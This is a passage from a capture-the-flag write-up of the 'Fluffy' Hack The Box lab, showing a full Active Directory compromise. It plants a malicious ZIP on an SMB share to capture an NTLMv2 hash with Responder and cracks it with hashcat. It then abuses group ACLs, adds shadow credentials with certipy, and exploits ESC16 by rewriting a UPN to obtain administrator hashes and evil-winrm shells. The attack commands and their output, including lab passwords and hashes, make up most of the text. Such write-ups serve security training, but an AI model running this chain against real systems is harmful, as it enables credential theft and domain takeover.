  </searchConnectorDescriptionList>
</libraryDescription>
```

When a user unzips the file, the Windows explorer interprets the file and opens a SMB request to the specific IP address (our attacking machine). So if we open a fake SMB server for example with Responder, we can catch the NTLMv2 hash of that user, if he executes it.

_Quick side note: Windows only tries the automatic login, if the URL is local IP address. Other addresses or hostname aren't attempted.

First we have to upload the malicious file:
```
┌──(kali㉿kali)-[~/…/Fluffy/restricted/it-share/CVE-2025-24071_PoC]
└─$     smbclient -U 'fluffy.htb/j.fleischman%J0elTHEM4n1990!' //10.10.11.69/IT
Try "help" to get a list of possible commands.
smb: \> put exploit.zip 
putting file exploit.zip as \exploit.zip (3.1 kb/s) (average 3.1 kb/s)
smb: \> 
```

And after a few seconds, the ZIP got extracted and we received the hash of the user:
```
┌──(kali㉿kali)-[~/…/Fluffy/restricted/it-share/KeePass-2.58]
└─$ sudo responder -I tun0                                                 
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.6.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.161]
    Responder IPv6             [dead:beef:2::109f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-R15E2U7YQCA]
    Responder Domain Name      [6V5Y.LOCAL]
    Responder DCE-RPC Port     [47140]

[+] Listening for events...                                                                                                        

[SMB] NTLMv2-SSP Client   : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:3bfea8647a0cc2f1:5D811FC0468069CFE3925175A8689C9E:0101000000000000807061318929DC01600D6E486E53A28D0000000002000800360056003500590001001E00570049004E002D005200310035004500320055003700590051004300410004003400570049004E002D00520031003500450032005500370059005100430041002E0036005600350059002E004C004F00430041004C000300140036005600350059002E004C004F00430041004C000500140036005600350059002E004C004F00430041004C0007000800807061318929DC0106000400020000000800300030000000000000000100000000200000D1E6223DEFE55F20D58EBA1FD99DE340B1803AB73F992BC0D51CD51DF02E7FFB0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100360031000000000000000000                                                            
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila


```

And we got the hash of the user `p.agila`!

### Cracking
The password can easily be cracked:
```
┌──(kali㉿kali)-[~/…/Machines/Fluffy/restricted/it-share]
└─$ cat hash                                    
p.agila::FLUFFY:3bfea8647a0cc2f1:5D811FC0468069CFE3925175A8689C9E:0101000000000000807061318929DC01600D6E486E53A28D0000000002000800360056003500590001001E00570049004E002D005200310035004500320055003700590051004300410004003400570049004E002D00520031003500450032005500370059005100430041002E0036005600350059002E004C004F00430041004C000300140036005600350059002E004C004F00430041004C000500140036005600350059002E004C004F00430041004C0007000800807061318929DC0106000400020000000800300030000000000000000100000000200000D1E6223DEFE55F20D58EBA1FD99DE340B1803AB73F992BC0D51CD51DF02E7FFB0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100360031000000000000000000

┌──(kali㉿kali)-[~/…/Machines/Fluffy/restricted/it-share]
└─$ hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

[...]

P.AGILA::FLUFFY:3bfea8647a0cc2f1:5d811fc0468069cfe3925175a8689c9e:0101000000000000807061318929dc01600d6e486e53a28d0000000002000800360056003500590001001e00570049004e002d005200310035004500320055003700590051004300410004003400570049004e002d00520031003500450032005500370059005100430041002e0036005600350059002e004c004f00430041004c000300140036005600350059002e004c004f00430041004c000500140036005600350059002e004c004f00430041004c0007000800807061318929dc0106000400020000000800300030000000000000000100000000200000d1e6223defe55f20d58eba1fd99de340b1803ab73f992bc0d51cd51df02e7ffb0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100360031000000000000000000:prometheusx-303
                                                          
Session..........: hashcat
Status...........: Cracked

[...]
```

The password is `prometheusx-303`.

## Further enumeration
From our earlier enumeration, we already know that the user `p.agila` is in the `Service Account Managers` group. I'm not complete sure if this is a default AD group, but it sound promising.

### Bloodhound
We can run up Bloodhound to find out the privileges the user gets through this group:
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ bloodhound-python -u 'p.agila' -p 'prometheusx-303' -d 'fluffy.htb' -ns '10.10.11.69' -c 'All' --zip 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 05S
INFO: Compressing output into 20250920180024_bloodhound.zip

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

Or alternative, use the NetExec command:
```
nxc ldap 10.10.11.69 -d 'fluffy.htb' -u 'p.agila' -p 'prometheusx-303' --bloodhound -c All --dns-server 10.10.11.69
```

In the overview, we can find the following:



The group `Service Account Managers` has the access control entry `GenericAll` to the group `Service Account`. This means full control over that group. E.g. we can add our self to that group.

The group itself, has `GenericWrite` to the enumerated service accounts:



With that ACE, we can modify all writable attributes of those objects. E.g. the passwords of those user accounts.

## Further exploitation
#### `Service Accounts` group
To add our self to the `Service Account`  group, we can use the following command:
```
┌──(kali㉿kali)-[~/…/Machines/Fluffy/restricted/bloodhound]
└─$ bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303' add groupMember 'SERVICE ACCOUNTS' p.agila
[+] p.agila added to SERVICE ACCOUNTS

┌──(kali㉿kali)-[~/…/Machines/Fluffy/restricted/bloodhound]
└─$ 
```

To verify the result, we can use the following command:
```
┌──(kali㉿kali)-[~/…/Machines/Fluffy/restricted/bloodhound]
└─$ net rpc group members "Service Accounts" -U "FLUFFY.HTB"/"p.agila"%'prometheusx-303' -S 'DC01.fluffy.htb'                      
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc

┌──(kali㉿kali)-[~/…/Machines/Fluffy/restricted/bloodhound]
└─$ 
```

#### Shadow credentials
A better way than changing the password of a service account, we can create so called shadow credentials. Basically, this adds a certificate to the object, with which we can authenticate.

To add such a certificate, we can use `certipy`:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '47dbb11c-c5ef-1720-4694-437ecfd6882a'
[*] Adding Key Credential with device ID '47dbb11c-c5ef-1720-4694-437ecfd6882a' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '47dbb11c-c5ef-1720-4694-437ecfd6882a' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```
_`-ldap-scheme ldap` is to ditch a weird LDAPS error. See here: https://github.com/ly4k/Certipy/issues/15_

_The `KRB_AP_ERR_SKEW(Clock skew too great)` error can be fixed by syncing with the DC: `sudo ntpdate -u 10.10.11.69`. For me the time got directly unsynced again. But running certipy directly after ntpdate worked._

This gives us full access to `winrm_svc` without needing its password.

#### User flag
We can now successfully enter the system and get the user flag:
```
└─$ evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\winrm_svc> cat Desktop/user.txt
c16255c6b6bd41eb2ab9fa6395de2747
*Evil-WinRM* PS C:\Users\winrm_svc> 
```

## System enumeration
With the account `ca_svc` (we also have to add shadow creds for this account), we can enumerate specific parts again. One finding is a potential ESC16 vulnerability, that we can find with certipy:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'CA_SVC' -dc-ip '10.10.11.69'

[...]

[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad find -ldap-scheme ldap -vulnerable -u CA_SVC -hashes ":ca0f4f9e9eb8a092addf53bb03fc98c8" -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250925110245_Certipy.txt'
[*] Wrote text output to '20250925110245_Certipy.txt'
[*] Saving JSON output to '20250925110245_Certipy.json'
[*] Wrote JSON output to '20250925110245_Certipy.json'
```

```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ tail 20250925110245_Certipy.txt
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ tail 20250925110245_Certipy.txt
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```

### ESC16
To make use of this vulnerability, we have to add the user principal name of the service user to be administrator and map the certificate as them. We can do this, since we have write access to the service users.

Showing the current UPN:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' read 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-09-25T16:00:36+00:00

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```

Changing the UPN to administator:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator' -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```

Now, we can request a new certificate as the user:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.10.11.69' -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'                                         
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 16
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```

To match the UPN correctly again, we have to reset it:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'ca_svc@fluffy.htb' -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```

We can use this certificate now, to authenticate our self as administrator and get the NTLM hash:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ certipy-ad auth -pfx administrator.pfx -domain 'fluffy.htb' -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e

┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ 
```

### Root flag
With the hash, we can get into the system a administrator and get the root flag:
```
┌──(kali㉿kali)-[~/…/ctf-writeups/hackthebox/Machines/Fluffy]
└─$ evil-winrm -i 10.10.11.69 -u 'administrator' -H '8da83a3fa618b6e3a00e93f676c92a6e'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
55c86ac21955b1e48360c4234b94e713
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
